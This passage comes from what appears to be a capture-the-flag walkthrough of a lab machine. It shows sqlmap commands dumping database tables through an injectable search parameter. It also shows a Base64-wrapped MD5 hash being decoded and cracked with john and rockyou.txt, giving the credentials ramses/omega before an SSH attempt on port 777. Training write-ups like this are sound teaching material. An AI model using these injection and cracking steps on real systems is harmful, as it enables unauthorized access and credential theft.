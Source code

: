 We obtained a hash for the user `ramses`: `YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE`.

### Enumerating `phpmyadmin` Database (Optional)

I also checked the `phpmyadmin` database for tables, but it didn't yield immediately useful credentials.

\`\`\`bash
sqlmap -u "http://192.168.1.142/kzMb5nVYJw/420search.php?usrtosearch=root" --batch --tables -D phpmyadmin
\`\`\`

## Password Cracking

I saved the hash for `ramses` to a file and used `hashid` to identify its type, then `john` to crack it.

\`\`\`bash
echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" > hash.txt
hashid "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE"
\`\`\`

`hashid` initially suggested "Cisco-IOS(SHA-256)" and "Cisco Type 4". However, the hash format `YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE` looks like a Base64 encoded string.

Decoding the Base64 string:
\`\`\`bash
echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" | base64 -d
\`\`\`
Result: `c6d6bd7ebf806f43c76acc3681703b81`

Now, identifying the type of the decoded hash:
\`\`\`bash
hashid "c6d6bd7ebf806f43c76acc3681703b81"
\`\`\`
This hash was identified as MD5, among others.

I then used `john` with the `rockyou.txt` wordlist to crack the MD5 hash:

\`\`\`bash
echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
\`\`\`

The hash `c6d6bd7ebf806f43c76acc3681703b81` was successfully cracked to `omega`.

<img src="https://hebbkx1anhila5yf.public.blob.vercel-storage.com/Screenshot_2025-07-12_06-41-46-UT72poggITCW2jo37TIowTrmREEnNU.png" alt="CrackStation cracking MD5 hash to 'omega'" width="800" />

**Credentials:**
-   **User**: `ramses`
-   **Password**: `omega`

## SSH Access

I attempted to SSH into the machine as `ramses` using the cracked password. The `nmap` scan showed SSH running on port 777, not the default port 22.
